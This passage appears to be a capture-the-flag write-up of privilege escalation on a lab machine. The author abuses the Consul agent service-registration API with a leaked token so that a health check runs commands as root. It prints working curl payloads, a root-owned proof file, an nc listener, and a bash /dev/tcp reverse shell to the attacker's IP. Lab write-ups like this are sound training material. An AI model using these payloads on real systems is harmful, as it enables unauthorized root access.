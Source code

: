 ![image](/images/Pasted image 20221121214827.png)

after researching what `consul` is and if there is an exploit we found actually something.

![image](/images/Pasted image 20221121215023.png)

but we needed to execute the exploit locally on the machine. so we had dig into the `metaploit` exploit and use the information to craft our own payload.

after a bit of try an error we got a PoC

```shell
curl --request PUT -H "X-Consul-Token: bb03b43b-1d81-d62b-24b5-39540ee469b5" -H "Content-Type: application/json" -d '{"ID":"test6","Name":"test6","Address":"127.0.0.1","Port":80,"check":{"Args":["sh","-c","touch /opt/consul/hello.txt"],"interval":"3s","Timeout":"86400s"}}' http://127.0.0.1:8500/v1/agent/service/register
```

```shell
developer@ambassador:/opt/consul$ ll
total 32
drwxr-xr-x 6 consul consul 4096 Nov 21 21:25 ./
drwxr-xr-x 4 root   root   4096 Sep  1 22:13 ../
-rw-r--r-- 1 consul consul  394 Mar 13  2022 checkpoint-signature
drwx------ 2 root   root   4096 Nov 21 21:25 checks/
-rw-r--r-- 1 root   root      0 Nov 21 21:26 hello.txt
-rw------- 1 consul consul   36 Mar 13  2022 node-id
drwxr-xr-x 3 consul consul 4096 Mar 13  2022 raft/
drwxr-xr-x 2 consul consul 4096 Mar 13  2022 serf/
drwx------ 2 root   root   4096 Nov 21 21:25 services/
```

the `hello.txt` file got created by `root`
now getting a root shell.

setting up a listener on our kali machine with:

```shell
$ nc -lvnp 4444
```

and using this payload to get a reverse shell

```shell
curl --request PUT -H "X-Consul-Token: bb03b43b-1d81-d62b-24b5-39540ee469b5" -H "Content-Type: application/json" -d '{"ID":"test11","Name":"test11","Address":"127.0.0.1","Port":80,"check":{"Args":["bash","-c","bash -i >& /dev/tcp/10.10.14.254/4444 0>&1"],"interval":"3s","Timeout":"86400s"}}' http://127.0.0.1:8500/v1/agent/service/register
```

![image](/images/Pasted image 20221121223539.png)

and the root flag is ours.

\[H4\]-\[L0\]
